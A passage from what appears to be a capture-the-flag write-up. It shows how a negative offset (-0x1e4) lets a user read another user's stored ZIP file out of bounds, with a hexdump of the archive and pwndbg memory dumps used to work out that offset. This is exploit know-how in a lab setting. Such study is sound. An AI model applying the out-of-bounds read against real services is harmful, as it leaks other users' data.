 For example, the following is the provided `invitecode.zip`. If you specify the offset as starting 10 bytes from 0x3f, you can create a hash using the last character of `invitecode` (`s` in this case) and the known 9 characters `b'PK\x01\x02\x3f\x00\x0a\x00\x00'`.

```
00000000  50 4b 03 04 0a 00 00 00  00 00 fc 85 23 5a 05 67  |PK..........#Z.g|
00000010  a8 04 13 00 00 00 13 00  00 00 0e 00 00 00 69 6e  |..............in|
00000020  76 69 74 65 63 6f 64 65  2e 74 78 74 74 65 72 72  |vitecode.txtterr|
00000030  69 62 6c 65 2d 72 65 64  2d 62 75 73 73 65 73 50  |ible-red-bussesP|
00000040  4b 01 02 3f 00 0a 00 00  00 00 00 fc 85 23 5a 05  |K..?.........#Z.|
00000050  67 a8 04 13 00 00 00 13  00 00 00 0e 00 24 00 00  |g............$..|
00000060  00 00 00 00 00 20 00 00  00 00 00 00 00 69 6e 76  |..... .......inv|
00000070  69 74 65 63 6f 64 65 2e  74 78 74 0a 00 20 00 00  |itecode.txt.. ..|
00000080  00 00 00 01 00 18 00 95  6d 78 87 31 5e db 01 95  |........mx.1^...|
00000090  6d 78 87 31 5e db 01 70  ee a1 80 31 5e db 01 50  |mx.1^..p...1^..P|
000000a0  4b 05 06 00 00 00 00 01  00 01 00 60 00 00 00 3f  |K..........`...?|
000000b0  00 00 00 00 00 
```

Also, it's easy to see how much of a negative offset is needed by using the gdb. The offset 0x3f from the beginning of the ZIP is `0x5684a6144e02` here, and the start position of `content` when registering is `0x5684a6144fe6`, so the offset shuld be -0x1e4.

```
0x5684a6144dc0 <fileUsers+1981824>:     0x04034b50000000b5      0x85fc00000000000a
0x5684a6144dd0 <fileUsers+1981840>:     0x001304a867055a23      0x000e000000130000
0x5684a6144de0 <fileUsers+1981856>:     0x657469766e690000      0x7478742e65646f63
0x5684a6144df0 <fileUsers+1981872>:     0x656c626972726574      0x7375622d6465722d
0x5684a6144e00 <fileUsers+1981888>:     0x3f02014b50736573      0xfc00000000000a00
0x5684a6144e10 <fileUsers+1981904>:     0x1304a867055a2385      0x0e00000013000000
pwndbg> 
0x5684a6144e20 <fileUsers+1981920>:     0x0000000000002400      0x0000000000002000
0x5684a6144e30 <fileUsers+1981936>:     0x63657469766e6900      0x0a7478742e65646f
0x5684a6144e40 <fileUsers+1981952>:     0x0100000000002000      0x3187786d95001800
0x5684a6144e50 <fileUsers+1981968>:     0x3187786d9501db5e      0x3180a1ee7001db5e
0x5684a6144e60 <fileUsers+1981984>:     0x0006054b5001db5e      0x6000010001000000
0x5684a6144e70 <fileUsers+1982000>:     0x000000003f000000      0x0000000000000000
0x5684a6144e80 <fileUsers+1982016>:     0x0000000000000000      0x0000000000000000
0x5684a6144e90 <fileUsers+1982032>:     0x0000000000000000      0x0000000000000000
0x5684a6144ea0 <fileUsers+1982048>:     0x0000000000000000      0x0000000000000000
0x5684a6144eb0 <fileUsers+1982064>:     0x0000000000000000      0x0000000000000000
pwndbg> 
0x5684a6144ec0 <fileUsers+1982080>:     0x0000000000000000      0x0000000000000000
0x5684a6144ed0 <fileUsers+1982096>:     0x0000000000000000      0x0000000000000000
0x5684a6144ee0 <fileUsers+1982112>:     0x0000000000000000      0x0000000000000000
0x5684a6144ef0 <fileUsers+1982128>:     0x0000000000000000      0x0000000000000000
0x5684a6144f00 <fileUsers+1982144>:     0x0000000000000000      0x0000000000000000
0x5684a6144f10 <fileUsers+1982160>:     0x0000000000000000      0x0000000000000000
0x5684a6144f20 <fileUsers+1982176>:     0x0000000000000000      0x0000000000000000
0x5684a6144f30 <fileUsers+1982192>:     0x0000000000000000      0x0000000000000000
0x5684a6144f40 <fileUsers+1982208>:     0x0000000000000000      0x0000000000000000
0x5684a6144f50 <fileUsers+1982224>:     0x0000000000000000      0x0000000000000000
pwndbg> 
0x5684a6144f60 <fileUsers+1982240>:     0x0000000000000000      0x0000000000000000
0x5684a6144f70 <fileUsers+1982256>:     0x0000000000000000      0x0000000000000000
0x5684a6144f80 <fileUsers+1982272>:     0x0000000000000000      0x0000000000000000
0x5684a6144f90 <fileUsers+1982288>:     0x0000000000000000      0x0000000000000000
0x5684a6144fa0 <fileUsers+1982304>:     0x0000000000000000      0x0000000000000000
0x5684a6144fb0 <fileUsers+1982320>:     0x0000000000000000      0x0000000000000000
0x5684a6144fc0 <fileUsers+1982336>:     0x000000b100000000      0x0000001404034b50
0x5684a6144fd0 <fileUsers+1982352>:     0x2ae4002100000000      0x000f0000000a5303
0x5684a6144fe0 <fileUsers+1982368>:     0x6161fffffe1c0000      0x6161616161616161
```
